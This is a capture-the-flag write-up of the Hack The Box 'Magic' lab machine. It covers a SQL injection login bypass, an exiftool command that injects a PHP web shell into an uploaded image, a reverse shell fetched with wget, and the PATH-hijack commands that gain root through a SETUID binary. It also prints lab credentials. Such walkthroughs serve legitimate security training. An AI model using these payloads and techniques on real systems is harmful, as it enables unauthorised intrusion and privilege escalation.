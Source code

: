 ```yaml
---
"title": "Hack The Box - Magic"
"date": 2020-08-22
"tags": ["linux", "medium", "file-upload-vuln", "sqli", "mysql", "path"]
"keywords": ["linux", "medium", "file-upload-vuln", "sqli", "mysql", "path"]
"categories": ["HackTheBox"]
"author": "Ghostbyt3"
"description": "Initial is by doing a SQLI to bypass login. And File Upload Vulnerability, from there we can get a shell and find user creds in SQL database. And root is by path hijack attack."
"featured_image": "/img/htb-magic/Untitled.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "HackTheBox - Writeup"
---
```



![Untitled](/img/htb-magic/Untitled.png)

Initial is by doing a SQLI to bypass login. And File Upload Vulnerability, from there we can get a shell and find user creds in SQL database. And root is by path hijack attack.

Link: [https://www.hackthebox.eu/home/machines/profile/241](https://www.hackthebox.eu/home/machines/profile/241)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results

```bash
PORT      STATE  SERVICE VERSION
22/tcp    open   ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp    open   http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
56044/tcp closed unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=4/23%OT=22%CT=56044%CU=37951%PV=Y%DS=2%DC=T%G=Y%TM=5EA
OS:15A54%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A
OS:)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54
OS:DST11NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88
OS:)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+
OS:%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
OS:T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A
OS:=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%D
OS:F=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=4
OS:0%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP Enumeration

The webpage looks like a Photo Gallery and There is a login option in the left corner of the page.

![Untitled](/img/htb-magic/Untitled%201.png)

Let's Look at the login page. I tried some default credentials, didn't work. So next option is SQL Injection.

![Untitled](/img/htb-magic/Untitled%202.png)

Captured the login request in burp. And send that to the intruder.

![Untitled](/img/htb-magic/Untitled%203.png)

In payload tab added MySQL Authentication bypass from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass). And Start Attack.

![Untitled](/img/htb-magic/Untitled%204.png)

We got some `302 Status`, they might help us login.

![Untitled](/img/htb-magic/Untitled%205.png)

![Untitled](/img/htb-magic/Untitled%206.png)

Logged in Successfully. And there is only an Image Upload options so I tried to upload a normal image first.

![Untitled](/img/htb-magic/Untitled%207.png)

Uploaded Successfully.

![Untitled](/img/htb-magic/Untitled%208.png)

I can see the image in the index page.

![Untitled](/img/htb-magic/Untitled%209.png)

I found the locations where these images are saving.

![Untitled](/img/htb-magic/Untitled%2010.png)

We can use Exiftool to inject payload into an image.

```bash
root@w0lf:~/CTF/HTB/Boxes/Magic# exiftool -Comment='<?php system($_GET['cmd']); ?>' payload.jpg
    1 image files updated
root@w0lf:~/CTF/HTB/Boxes/Magic# mv payload.jpg payload.php.jpg
```

Now We can upload the payload. 

![Untitled](/img/htb-magic/Untitled%2011.png)

![Untitled](/img/htb-magic/Untitled%2012.png)

## Getting shell as www-data

Our Payload is working. Let's try to get a reverse shell now.

![Untitled](/img/htb-magic/Untitled%2013.png)

Started python server in my machine and upload a PHP Reverse shell.

![Untitled](/img/htb-magic/Untitled%2014.png)

I used `wget` to upload the PHP reverse shell to the box.

![Untitled](/img/htb-magic/Untitled%2015.png)

Now I can access `wolfpayload.php` in the same directory and started my netcat listener. And We got `www-data` shell.

![Untitled](/img/htb-magic/Untitled%2016.png)

## Getting user Theseus

While enumerating I found `db.php5` in `/var/www/Magic` directory. We found some credentials, so `su` to the user.

![Untitled](/img/htb-magic/Untitled%2017.png)

Before doing `su`  we need to get a proper shell first.

```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

 When tried login I get  Authentication Failure.

```bash
$ su theseus
su theseus
Password: iamkingtheseus

su: Authentication failure
```

Since we have MySql Credentials better Dump all. And I got one more password now.

![Untitled](/img/htb-magic/1.png)

Finally logged in as user with `theseus : Th3s3usW4sK1ng`

```bash
$ su theseus
su theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:/var/www/Magic$ whoami
whoami
theseus
theseus@ubuntu:/var/www/Magic$
```

## Privilege Escalation

I uploaded my enumeration script and found a `SETUID` binary.

![Untitled](/img/htb-magic/Untitled%2018.png)

### What is sysinfo?

- sysinfo - return system information.

I did `strings` on `/bin/sysinfo` and it running some other tools too.

![Untitled](/img/htb-magic/Untitled%2019.png)

### What is lshw?

- lshw is used to generate the detailed information of the system’s hardware configuration

The path of `lshw` is not fully specified.

So we can create a file to give us shell and placed it in `/tmp` and name it as `lshw` and change the PATH to `/tmp`.

```bash
theseus@ubuntu:/tmp/test$ echo "reset; sh 1>&0 2>&0" > lshw
echo "reset; sh 1>&0 2>&0" > lshw
theseus@ubuntu:/tmp/test$ chmod 755 lshw
chmod 755 lshw
```

This command will make the PATH to search in `/tmp` first

```bash
theseus@ubuntu:/tmp/test$ export PATH=/tmp/test:$PATH
export PATH=/tmp/test:$PATH
```

Now by running `sysinfo` it will search for `lshw` to execute it and it asks the PATH where it locates and it will tell `lshw` is located in `/tmp/test/lshw`.

```bash
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
info.c	root.txt
#
```

We own the root!